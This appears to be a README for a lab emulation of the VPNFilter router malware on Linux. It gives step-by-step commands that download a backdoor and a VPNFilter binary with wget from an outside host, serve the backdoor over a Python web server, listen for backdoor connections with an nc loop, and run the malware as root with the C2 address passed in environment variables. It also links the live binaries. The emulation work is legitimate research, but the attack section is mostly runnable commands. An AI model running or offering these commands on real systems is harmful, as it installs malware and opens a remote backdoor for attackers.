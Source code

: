 # VPNFilter attack 

This attack emulates VPNFilter malware behavior from a x86 Linux host.

## What is VPNFilter attack?

VPNFilter is malware designed to infect routers and certain network attached storage devices. As of 24 May 2018, it is estimated to have infected approximately 500,000 routers worldwide, though the number of at-risk devices is larger.[1] It can steal data, contains a "kill switch" designed to disable the infected router on command, and is able to persist should the user reboot the router.[2] The FBI believes that it was created by the Russian Fancy Bear group (APT 28). 

## Attack scenario preparation

* Victim host: A Linux host (Ubuntu)
* C2 host (Ubuntu): Host that will provide stage2 binary (backdoor client) from port 8000 and waiting for backdoor connection from port 9000.


## Launch attack

### C2 Server

* You need to set-up a webserver at port 9000  
```
$ mkdir server-file
$ cd server-files
$ wget http://www.syssec.org:9000/N9Qbh/bdoor
$ python -m SimpleHTTPServer 8000
```
    
* The following command should download the backdoor program
 ```
 wget <C2 ip address>:8000/bdoor
 ```
 
* From another console, run the following command to wait for the backdoor
```sh
while true 
do 
    nc -l -p 9000
    sleep 1
done
```
    
### Victim host

 1. Clean up files

```bash
/bin/rm -f /var/run/msvf.pid
/bin/rm -f/var/run/client_ca.crt
/bin/rm -f /var/run/client.crt
/bin/rm -f /var/run/client.key
```

2. Download VPNFilter to /tmp/

```
cd /tmp/
wget http://www.syssec.org:9000/GIKg8/vpnfilter
```
 
3. Run it with the following command

```bash
# You need to pass C2 host IP address via environment variable.
# Say C2 Host address is 1.2.3.4
$ sudo  IP1=1 IP2=2 IP3=3 IP4=4 /tmp/vpnfilter
```
   
## Resources
   
* [VPNFilter binary (vpnfilter)](http://www.syssec.org:9000/GIKg8/vpnfilter)
* [backdoor binary (bdoor)](http://www.syssec.org:9000/N9Qbh/bdoor)

###### tags: `vpnfilter`,`linux`,`attack`